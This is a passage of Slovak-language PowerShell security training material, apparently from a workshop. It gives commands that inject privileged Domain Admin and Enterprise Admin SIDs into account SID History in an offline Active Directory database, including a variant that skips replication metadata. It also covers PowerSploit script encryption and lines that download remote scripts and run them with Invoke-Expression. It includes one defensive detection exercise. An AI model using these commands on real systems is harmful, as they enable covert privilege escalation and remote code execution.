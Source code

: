 # Zmena SID History
$sid1 = $dcInfo.DomainSid.Value + '-512'
$sid2 = $dcInfo.DomainSid.Value + '-516'
$sid3 = $dcInfo.DomainSid.Value + '-519'

Get-ADDBAccount -SamAccountName Eva -DBPath $dbFile | select DistinguishedName,SamAccountName,Enabled,PrimaryGroupId,SidHistory
Add-ADDBSidHistory -SamAccountName Eva -SidHistory $sid1,$sid2,$sid3 -DBPath $dbFile
Get-ADDBAccount -SamAccountName Eva -DBPath $dbFile | select DistinguishedName,SamAccountName,Enabled,PrimaryGroupId,SidHistory

# Vynechanie replikačných metadát
Add-ADDBSidHistory -SamAccountName Adam -SidHistory $sid1,$sid2,$sid3 -SkipMetaUpdate -DBPath $dbFile

</pre>

Úloha: Napíšte skripty na&nbsp;detekciu účtov so&nbsp;SID History a&nbsp;s&nbsp;neštandardnou primárnou skupinou.

### Kódovanie a&nbsp;šifrovanie príkazov

[PowerSploit](https://github.com/PowerShellMafia/PowerSploit)

<pre class="lang:ps decode:true">Out-EncodedCommand -ScriptBlock { Get-Process | Out-GridView -Wait }</pre>

<pre class="lang:ps decode:true "># Vytvorenie cleartext scriptu
echo 'Get-Process' &gt; clear.ps1

# Vytvorenie zašifrovaného skriptu
Out-EncryptedScript -ScriptPath .\clear.ps1 -Password SuperSecret -Salt Random -FilePath evil.ps1
cat .\evil.ps1

# Od+sifrovanie skriptu
. .\evil.ps1
de SuperSecret Random</pre>

### Spustenie skriptu z&nbsp;webu

<pre class="lang:ps decode:true "># RickRoll
iex (iwr http://bit.ly/e0Mw9w )

# PortScan
$uri = 'https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/Invoke-Portscan.ps1'
(Invoke-WebRequest -Uri $uri).Content | Invoke-Expression
Invoke-Portscan -Hosts www.hackerfest.cz</pre>
